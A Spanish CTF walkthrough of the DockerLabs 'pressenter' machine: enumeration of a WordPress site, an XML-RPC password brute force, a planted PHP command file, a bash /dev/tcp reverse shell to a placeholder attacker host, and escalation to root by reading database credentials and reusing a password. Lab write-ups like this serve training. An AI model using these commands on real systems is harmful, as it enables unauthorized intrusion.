





Maquina "pressenter" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Aug 29 17:09:33 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000016s latency).
Scanned at 2024-08-29 17:09:33 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Pressenter CTF
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 17:09:41 2024 -- 1 IP address (1 host up) scanned in 8.57 seconds
```

Como vemos, solo está abierto el puerto 80 y esta corriendo `apache`, por lo que significa que hay una página web.

Ahora continuaremos desde el navegador para ver que hay en el puerto 80:

#### PUERTO 80:



Al parecer es una página con un "challenge" y que nos podemos registrar, pero si probamos vemos que realmente no podemos, por lo que ignoraremos todo y mejor usaremos gobuster:

```css
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js
```

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/register.html        (Status: 200) [Size: 1483]
/index.html           (Status: 200) [Size: 2187]
Progress: 167892 / 1102805 (15.22%)
===============================================================
Finished
===============================================================
```

Como vemos no hay nada interesante, pero luego de revisar el codigo fuente de `index.html`, vemos la siguiente línea:


como se ve en la imágen, hay un dominio `pressenter.hl`, por lo que simplemente modificaremos el archivo `/etc/hosts` y al final agregamos lo siguiente:

```css
<IP> pressenter.hl #Reemplaza <IP> por la ip de la maquina victima
```

Una vez hecho todo eso, podremos entrar a `http://pressenter.hl` y veremos una página distinta *la cual parece ser un wordpress*.

Con la información obtenida continuaremos con la intrusión, ya que utilizaremos `wpscan` para enumerar usuarios y ver si podemos obtener la contraseña de alguno, para posteriormente ganar acceso a la máquina con el wordpress.

# INTRUSION

Sabiendo que hay un wordpress, utilizaremos la herramienta `wpscan` de la siguiente manera:

```css
wpscan --url http://pressenter.hl/ -e u
```

`-e u`: Esto para utilizar la opción de enumeracion y especificar que queremos "listar" usuarios poniendo la letra "u"

```elixir
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pressenter.hl/ [172.17.0.2]
[+] Started: Thu Aug 29 17:21:08 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.58 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pressenter.hl/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pressenter.hl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pressenter.hl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:07 <===============================================> (702 / 702) 100.00% Time: 00:00:07
[i] The WordPress version could not be detected.

[+] WordPress theme in use: twentytwentyfour
 | Location: http://pressenter.hl/wp-content/themes/twentytwentyfour/
 | Latest Version: 1.2 (up to date)
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://pressenter.hl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pressenter.hl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.2'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] pressi
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] hacker
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Aug 29 17:21:22 2024
[+] Requests Done: 1323
[+] Cached Requests: 12
[+] Data Sent: 360.274 KB
[+] Data Received: 29.389 MB
[+] Memory used: 225.113 MB
[+] Elapsed time: 00:00:13
```

Como vemos, hay un usuario llamado `pressi`, por lo que podriamos utilizar wpscan para intentar hacer fuerza bruta al panel de login con un diccionario, para hacerlo ejecutaremos wpscan de la siguiente manera:

```css
wpscan --url http://pressenter.hl/ --usernames pressi --passwords <ubicacion/a/nuestro/diccionario>
```

Luego de unos minutos veremos este resultado:

```css
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - pressi / dumbass
```

Ahora que ya tenemos un usuario y contraseña para el wordpress, entraremos desde el navegador. [wp-login](http://pressenter.hl/wp-login.php)

Una vez dentro, hay muchas maneras de ganar intrusion remota, pero esta vez crearemos un `.php` que nos permita ejecutar comandos y para posteriormente enviarnos una `reverse shell`.

#### wordpress

Ahora iremos a `plugins > añadir nuevo plugin` y agregaremos uno llamado `file-manager`, a mi me gusta este en específico pero pueden usar el que quieran:



luego lo activamos y vemos que ahora hay una nueva pestaña, entramos y vamos a `/wp-content/uploads/2024` y creamos un archivo llamado "cmd.php" o lo que queramos y dentro ponemos lo siguiente:



guardamos y entramos a `http://pressenter.hl/wp-content/uploads/2024/cmd.php`. Estando en el archivo ponemos un signo de interrogación con el parametro cmd y el comando que queramos, seria algo así:

```css
http://pressenter.hl/wp-content/uploads/2024/cmd.php?cmd=ls
```

En nuestro caso necesitamos una reverse shell, por lo que de comando pondremos lo siguiente:

```css
bash -c 'bash >%26 /dev/tcp/<IP>/<PORT> 0>%261'
```

pero antes de enviarlo escucharemos con el netcat, en el puerto que queramos (en mi caso el 443):

```css
nc -nlvp 443
```

y ahora si enviamos la reverse shell.

# ESCALADA DE PRIVILEGIOS

Antes de poder continuar y ejecutar algo, primero tendremos que hacer un tratamiento de la tty, para hacerlo debemos ejecutar esta "serie" de comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm", y enter
export TERM=xterm
export SHELL=bash
stty rows 33 columns 128
```

Ahora si, ya estaremos dentro de manera comoda.

### www-data

Ahora tenemos acceso al sistema, pero somos "www-data", por lo que tendremos que buscar una manera de escalar al usuario "enter". Luego de buscar un rato, se me ocurre ver la base de datos mysql, pero como tiene una contraseña, podemos intentar leer el archivo "wp-config.php" donde está instalado el wordpress y veremos una linea en la que esta el usuario y contraseña:

```css
/** Database username */
define( 'DB_USER', 'admin' );

/** Database password */
define( 'DB_PASSWORD', 'rooteable' );
```

Como vemos, tenemos un usuario y contraseña, por lo que veremos la base de datos para ver si encontramos una contraseña. Para conectarnos simplemente ejecutamos:

```css
mysql -u admin --password=rooteable
```

Una vez dentro ejecutaremos esto:

```css
show databases;
```

esto nos mostrará las bases de datos, en nuestro caso tenemos estas:

```css
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| wordpress          |
+--------------------+
```

la única que nos puede interesar es la de wordpress, por lo que ahora ejecutaremos `use wordpress`. Ahora que seleccionamos la base de datos, ejecutaremos:

```css
show tables;
```

esto nos mostrará las tablas de la base de datos:

```css
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_usernames          |
| wp_users              |
| wp_wpfm_backup        |
+-----------------------+
```

y ahora ejecutamos:

```css
select*from wp_usernames;
```

y finalmente tendremos la contraseña de enter:

```css
+----+----------+-----------------+---------------------+
| id | username | password        | created_at          |
+----+----------+-----------------+---------------------+
|  1 | enter    | kernellinuxhack | 2024-08-22 13:18:04 |
+----+----------+-----------------+---------------------+
```

Ahora solo ejecutamos `su enter` y ponemos la contraseña, ya habremos escalado un usuario.

### ENTER

Luego de buscar, descubro que no hay nada, pero por probar uso la misma contraseña que enter y escalo a root, simplemente hay que ejecutar `su root` y poner la contraseña.


